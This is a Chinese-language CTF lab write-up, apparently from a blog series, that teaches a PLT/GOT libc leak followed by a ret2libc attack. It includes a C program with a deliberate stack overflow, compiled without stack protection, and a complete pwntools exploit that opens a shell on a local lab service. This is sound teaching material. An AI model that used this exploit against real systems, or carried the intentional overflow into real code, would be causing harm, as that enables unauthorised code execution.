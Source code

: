 ```yaml
---
title: "Day16－PLT to Libc"
date: 2024-09-16
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

昨天我們示範了如何在沒有拿到 libc base 且程式是動態鏈結的情況下，透過 PLT 拿到 shell。不過那是因為程式一開始就有呼叫一次 `system` 函式，使得在編譯過程中產生了 GOT 和 PLT。如果沒有呼叫過該函式，是不是就無法被攻擊了呢？其實不是，因為我們可以透過 PLT 和 GOT 嘗試取得程式中的 libc base，並進行 ret2libc 攻擊。

## plt & got leak libc

如之前所提，GOT 會存儲外部函式的地址。即便我們不知道具體的 libc base，也可以將某些函式的 GOT 地址作為參數，傳遞給可以輸出資訊的函式，如 `puts`，來洩露 libc 地址並計算出 libc base。具體上傳遞參數的過程會像這樣：`puts(got_address)`。

這裡需要注意，若程式的 RELRO 是 Partial，我們需要函式的地址被解析完成後才能使用。有些讀者可能會問：既然我們不知道 libc base，那要如何呼叫 `puts` 呢？實際上，我們可以直接呼叫 PLT，因為 PLT 會自動從 GOT 中取出地址，也就是 libc 內部的函式地址。如此一來，我們就能成功呼叫 `puts` 並取得 libc base，進而進行簡單的 ret2libc 攻擊。

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("Leave a message: ");
    read(0, message, 0x100);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2plt_adv.c -o ./ret2plt_adv/share/ret2plt_adv -fno-stack-protector -no-pie
```

## writeup

這次的程式與前幾天的不同，分析後我們發現有一個 `read` 的 overflow，可以用來控制程式的執行流。不過因為是動態鏈結，gadgets 可能不足以構造完整的 ROP chain，所以我們需要從 libc 中尋找 gadgets。然而，要使用 libc，必須先泄露 libc base，但程式中沒有像格式化字串或 out-of-bounds (OOB) 等可直接泄露 libc 的漏洞。幸運的是，我們可以控制程式的執行流，並且程式內有 `puts` 函式，因此我們可以將某個函式的 GOT 地址作為參數傳入 `puts`，取得該函式的 libc 地址，進而計算出 libc base。

有了 libc base 後，我們可以再一次輸入並觸發 overflow，完成 ret2libc 攻擊。值得一提的是，我特地加了一個 `pop rdi; ret`，以便傳遞參數。

所以我們要確認以下資訊

- `puts` 的 PLT 地址
- 已被解析的某個函式的 GOT 地址
- `main` 的地址（泄露 libc 後返回重新輸入）

這些資訊可以用 `objdump` 輕鬆找出。

![image](https://hackmd.io/_uploads/B1A_hcH0R.png)

我們來測試一下是否能成功泄露 libc 地址，並接上 gdb 計算 offset。

在測試之前，因為要針對 libc，所以需要更換 libc，具體操作可參照[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

需要控制流的 padding 為 `0x10+0x8=0x18`。

![image](https://hackmd.io/_uploads/SykCeoS00.png)

接下來，使用以下 script 進行測試：

```py=
from pwn import *

r = process('./ret2plt_adv')
context.terminal = ['tmux','splitw','-h']
gdb.attach(r)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00'))
print(hex(libc))
r.interactive()
```

我們可以成功泄露一些資訊，並確認 offset 為 `0x815f0`。

![image](https://hackmd.io/_uploads/BJy61jBAA.png)

![image](https://hackmd.io/_uploads/ry7klsBC0.png)

接下來，將泄露到的地址減去 `0x815f0` 來測試，發現確實成功泄露到 libc base。

![image](https://hackmd.io/_uploads/Hk3Deir00.png)

由於程式最後接回了 `main`，因此有再次輸入的機會，此時就可以進行 ret2libc，具體步驟可參考 [Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126) 的步驟

完整 exploit：

```py=
from pwn import *

# r = process('../ret2plt_adv/share/ret2plt_adv')
r = remote('127.0.0.1',10008)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00')) - 0x815f0
log.info('Libc: ' + hex(libc))
system = libc + 0x50d70
bin_sh = libc + 0x1d8678
ret = pop_rdi + 1
payload = b'A' * (0x10 + 8) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](https://hackmd.io/_uploads/HyDobjr0C.png)
